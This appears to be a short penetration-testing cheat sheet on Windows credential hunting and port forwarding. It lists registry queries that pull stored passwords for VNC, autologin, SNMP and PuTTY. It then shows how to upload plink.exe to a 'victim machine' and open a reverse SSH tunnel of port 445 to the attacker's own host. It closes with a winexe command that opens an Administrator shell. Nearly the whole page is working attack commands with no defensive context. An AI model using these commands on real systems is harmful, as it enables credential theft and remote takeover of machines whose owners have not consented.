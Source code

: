 # Passwords and Port Forwarding
-------------------------------------------------------

checking for passwords in the registries:

```powershell

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


## Port forwarding using plink 
- download plink.exe (32 or 64bit) on the local system 
- upload plink.exe to the victim machine 
- install ssh on the attacking machine 
- edit /etc/ssh/sshd_config -> PermitRootLogin yes
- service ssh restart
- on the victim windows machine:

```powershell
plink.exe -l root -pw (password of our machine) -R 445:127.0.0.1:445 OURIP 
```

- netstat -ano to check if the port forwarding succeded
- use [[1000 - Tools#winexe]] to execute windows commands from linux:

```bash
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"
```